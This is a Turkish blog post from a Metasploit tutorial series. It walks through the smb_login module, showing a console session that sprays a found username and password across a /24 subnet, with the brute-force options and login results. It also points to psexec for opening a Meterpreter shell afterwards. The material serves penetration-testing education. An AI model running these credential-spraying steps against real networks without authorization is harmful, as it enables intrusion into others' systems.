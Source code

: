 ```yaml
---
draft: false

title:  'MSF İçinde SMB Login Kontrolü'
date: '2017-05-18T13:02:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Yaptığınız taramalarda, bir şekilde kullanıcı adı ve parola bulduğunuzu düşünüyorsunuz. Bu kullanıcı adı ve parolanın başka hangi servislerde kullanıldığını denemek isteyebilirsiniz. Bu noktada denenebilecek en mantıklı servis\_SMB\_olarak adlandırılan ağ üzerinde dosya paylaşım servisidir." 
 
url:  /tr/msf-icinde-smb-login-kontrolu/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Önceki yazılarımızda “Bilgi Toplama” modüllerinden bir kısmını gördük. IP ve Port tarama ile birlikte servislerin bulunmadı konularını ele aldık. Bir sonraki aşama “Zafiyet Taraması” olarak adlandırılır. Pentest aşamalarından “Bilgi Toplama” işlemleri ne kadar iyi ve sağlıklı yapılırsa, sonraki aşamalarda verim elde etmeniz de o kadar mümkün olacaktır.



Yaptığınız taramalarda, bir şekilde kullanıcı adı ve parola bulduğunuzu düşünüyorsunuz. Bu kullanıcı adı ve parolanın başka hangi servislerde kullanıldığını denemek isteyebilirsiniz. Bu noktada denenebilecek en mantıklı servis `SMB` olarak adlandırılan ağ üzerinde dosya paylaşım servisidir.



Aşağıdaki örnekte, `smb_login` modülü kullanılmakta ve önceden bulunan bir kullanıcı adı ve parola denenmektedir. Bu tarama türünde, hedef bilgisayar Windows ise dikkatli olmalısınız çünkü başarısız her deneme, sistem yöneticisine ikaz olarak iletilir. `smb_login` taramanın çok gürültü çıkarttığını bilmelisiniz.



Yaptığınız `smb_login` taramasında başarılı bir oturum açma gerçekleşirse, devamında `windows/smb/psexec` modülünü kullanarak `Meterpreter` shell açma denenebilir.


```bash
msf **>** use auxiliary/scanner/smb/smb_login
msf auxiliary**(**smb_login**)** **>** show options

Module options **(**auxiliary/scanner/smb/smb_login**)**:

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   true             no        Try blank passwords **for **all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   PASS_FILE                          no        File containing passwords, one per line
   PRESERVE_DOMAINS  true             no        Respect a username that contains a domain name.
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             445              yes       Set the SMB service port
   SMBDomain         WORKGROUP        no        SMB Domain
   SMBPass                            no        SMB Password
   SMBUser                            no        SMB Username
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works **for **a host
   THREADS           1                yes       The number of concurrent threads
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      true             no        Try the username as the password **for **all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output **for **all attempts

msf auxiliary**(**smb_login**)** **>** set RHOSTS 192.168.1.0/24
RHOSTS **=>** 192.168.1.0/24
msf auxiliary**(**smb_login**)** **>** set SMBUser victim
SMBUser **=>** victim
msf auxiliary**(**smb_login**)** **>** set SMBPass s3cr3t
SMBPass **=>** s3cr3t
msf auxiliary**(**smb_login**)** **>** set THREADS 50
THREADS **=>** 50
msf auxiliary**(**smb_login**)** **>** run

**[*********]** 192.168.1.100 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
**[*********]** 192.168.1.111 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
**[*********]** 192.168.1.114 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
**[*********]** 192.168.1.125 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
**[*********]** 192.168.1.116 - SUCCESSFUL LOGIN **(**Unix**)**
**[*********]** Auxiliary module execution completed

msf auxiliary**(**smb_login**)** **>**
```



Örnek çıktıda görüldüğü gibi, `192.168.1.116` IP adresinde başarılı bir oturum açma işlemi gerçekleşmiştir.
